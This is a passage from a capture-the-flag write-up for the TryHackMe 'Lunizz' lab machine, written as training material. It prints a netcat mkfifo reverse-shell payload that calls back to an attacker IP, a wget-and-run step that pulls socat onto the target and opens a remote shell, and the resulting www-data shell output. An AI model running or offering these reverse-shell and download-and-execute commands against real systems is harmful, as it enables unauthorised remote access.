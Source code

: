 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# nc -lnvp 443       
listening on [any] 443 ...
```

- Run the `nc` reverse shell payload:

**Payload:**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.18.61.134 443 >/tmp/f
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a7.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# nc -lnvp 443       
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.60.160] 52918
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lunizz:/var/www/html/whatever$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
lunizz
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:e4:9d:4e:89 brd ff:ff:ff:ff:ff:ff
    inet 10.10.60.160/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3370sec preferred_lft 3370sec
    inet6 fe80::25:e4ff:fe9d:4e89/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@lunizz:/var/www/html/whatever$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/25 01:30:50 socat[52333] N opening character device "/dev/pts/2" for reading and writing
2022/09/25 01:30:50 socat[52333] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/25 01:30:53 socat[52333] N accepting connection from AF=2 10.10.60.160:37148 on AF=2 10.18.61.134:4444
                                                                    2022/09/25 01:30:53 socat[52333] N starting data transfer loop with FDs [5,5] and [7,7]
                                                www-data@lunizz:/var/www/html/whatever$ 
www-data@lunizz:/var/www/html/whatever$ stty rows 22 columns 107
www-data@lunizz:/var/www/html/whatever$ export TERM=xterm-256color
www-data@lunizz:/var/www/html/whatever$ ^C
www-data@lunizz:/var/www/html/whatever$ 
```
